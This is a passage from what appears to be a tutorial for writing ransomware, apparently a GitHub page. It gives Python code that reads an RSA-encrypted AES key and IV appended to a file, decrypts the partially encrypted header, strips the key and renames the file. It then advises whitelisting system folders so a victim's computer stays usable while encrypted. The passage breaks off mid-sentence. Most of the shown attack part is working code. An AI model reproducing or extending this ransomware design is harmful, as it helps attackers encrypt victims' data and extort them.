 5. Read the encrypted decryption key. This will be

```
# we move the pointer to 274 bytes before the end of file
# (258 bytes of the encryption key + 16 of the AES IV)
input_file.seek(-274, os.SEEK_END)
# And we read the 258 bytes of the key
secret = input_file.read(258)
```

6. Decrypt the encrypted key with the provided private key

```
key = rsaDecryptSecret(cert, secret)
```

7. Decrypt the aes-encrypted buffer size we defined before, and write it to the beginning of the file

```
# Create the cipher object
cipher_encrypt = AES.new(privateKey, AES.MODE_CFB, iv=iv)                                                                                                                            
# Read the encrypted header                                                                                              
input_file.seek(0)                                                                                                                                                            
buffer = input_file.read(buffer_size)                                                                                                                                         
# Decrypt the header with the key
decrypted_bytes = cipher_encrypt.decrypt(buffer) 
# Write the decrypted text on the same file                                                                                                                             
input_file.seek(0)                                                                                                                                                            
input_file.write(decrypted_bytes)
```

8. Delete the iv + encryption key from the end of the file and rename it.

```
# Delete the last 274 bytes from the IV + key.                                                                                                                                             
input_file.seek(-274, os.SEEK_END)                                                                                                                                            
input_file.truncate()                                                                                                                                                    input_file.close() 
#Rename the file to delete the encrypted extension                                                                                                                                                 
os.rename(file, out_filename)
```



## Final Considerations

You’ll have to **define a “whitelist” of files/folders for each operating system**. You’ll need to do this in order to leave the computer “usable” but encrypted. If you just start encrypting every file on sight you’ll probably:
